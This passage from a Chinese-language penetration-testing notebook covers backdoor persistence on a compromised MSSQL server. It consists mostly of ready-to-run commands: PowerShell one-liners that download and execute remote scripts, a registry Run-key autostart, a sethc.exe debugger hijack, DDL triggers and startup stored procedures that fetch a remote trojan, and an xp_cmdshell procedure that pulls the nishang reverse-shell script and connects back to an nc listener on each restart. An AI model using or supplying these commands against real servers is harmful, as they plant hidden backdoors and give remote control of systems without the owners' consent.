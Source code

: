  #### 注册表自启动
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegRun -Verbose -Name Update -Command 'c:\windows\temp\Update.exe' -Instance "zone.com\sub2k8""
 #### 重启MSSQL上线(需重启服务)
	http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1
	>powershell -ep bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1') 
	>Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "zone.com\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')" 远程木马脚本可用CS/Empire生成
	>net stop mssqlserver
	>net start mssqlserver
 #### 映像劫持
	>powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegDebugger -Verbose -FileName sethc.exe -Command "c:\windows\system32\cmd.exe" -Instance "zone.com\sub2k8""
 #### DDL事件触发
	>powershell -exec bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/Invoke-SqlServer-Persist-TriggerDDL.psm1') 
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance "zone\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')"  远程木马文件可用CS/Empire生成
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance " zone\sub2k8" -Remove   移除后门
 #### WarSQLKit(后门)
	http://eyupcelik.com.tr/guvenlik/493-mssql-fileless-rootkit-warsqlkit
 #### 存储过程维持权限
	>USE master
	>GO
![image](/assets/Pentest_Note/master/img/912.png)

	>wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
![image](/assets/Pentest_Note/master/img/913.png)

	修改下脚本的ip和端口
	创建个web服务，把脚本传上去
![image](/assets/Pentest_Note/master/img/914.png)

	创建存储过程
	>CREATE PROCEDURE test_sp
	>AS
	>EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://192.168.1.2/Invoke-PowerShellTcpOneLine.ps1'')"'
	>GO
![image](/assets/Pentest_Note/master/img/915.png)

	设置服务器启动时立刻执行
	EXEC sp_procoption @ProcName = 'test_sp'
	, @OptionName = 'startup'
	, @OptionValue = 'on';
![image](/assets/Pentest_Note/master/img/916.png)

	设置完成，使用命令可以查到我们的存储过程
	>SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY ( id, 'ExecIsStartUp' ) = 1 ;
![image](/assets/Pentest_Note/master/img/917.png)

	打开nc监听
![image](/assets/Pentest_Note/master/img/918.png)

	重启后可以收到会话
![image](/assets/Pentest_Note/master/img/919.png)
![image](/assets/Pentest_Note/master/img/920.png)
![image](/assets/Pentest_Note/master/img/921.png)